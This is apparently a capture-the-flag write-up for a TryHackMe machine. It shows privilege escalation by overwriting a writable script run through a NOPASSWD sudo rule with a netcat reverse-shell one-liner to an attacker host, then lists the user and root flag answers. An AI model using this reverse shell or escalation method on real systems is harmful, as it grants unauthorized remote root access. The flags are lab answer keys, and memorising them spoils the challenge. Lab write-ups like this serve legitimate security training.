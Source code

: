 
## Privilege Escalation

Checking sudo permissions:

```bash
sudo -l
```

```
User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

Looking at `/home/itguy/backup.pl`:

```perl
system("sh", "/etc/copy.sh");
```

This runs `/etc/copy.sh`. Since I could write to it, I added a reverse shell:

```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> 1235 >/tmp/f' >/etc/copy.sh
```

Then ran:

```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```

Caught a root shell and read the flag:

```
THM{6637f41d0177b6f37cb20d775124699f}
```

---

## Flags

> Q1: User flag
> A1: THM{63e5bce9271952aad1113b6f1ac28a07}

> Q2: Root flag
> A2: THM{6637f41d0177b6f37cb20d775124699f}
